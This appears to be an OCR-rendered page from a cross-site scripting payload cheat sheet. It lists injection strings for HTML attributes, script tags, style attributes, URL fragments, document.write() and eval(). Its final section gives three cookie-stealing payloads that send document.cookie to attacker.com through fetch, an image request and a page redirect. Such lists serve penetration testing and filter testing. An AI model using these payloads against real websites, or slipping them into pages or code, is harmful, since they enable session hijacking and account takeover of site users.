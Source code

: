 ## Context-Specific Payloads

### Inside Attributes
```html
" onclick="alert('XSS')" "
' onclick='alert('XSS')' '
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>
```

### Inside Script Tags
```html
</script><script>alert('XSS')</script>
';alert('XSS');//
\';alert(\'XSS\');//
```

### Inside Style Attributes
```html
color:red;background:url(javascript:alert('XSS'))
background:url('javascript:alert("XSS")')
```

## DOM-Based XSS Payloads

### URL Fragment Based
```
#<script>alert('XSS')</script>
#<img src=x onerror=alert('XSS')>
#javascript:alert('XSS')
```

### For document.write()
```html
<script>document.write('<script>alert("XSS")<\/script>')</script>
```

### For eval() Functions
```javascript
alert('XSS')
';alert('XSS');//
\';alert(\'XSS\');//
```

## Real-World Attack Scenarios

### Cookie Stealing
```html
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
<script>new Image().src='http://attacker.com/steal?cookie='+document.cookie</script>
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

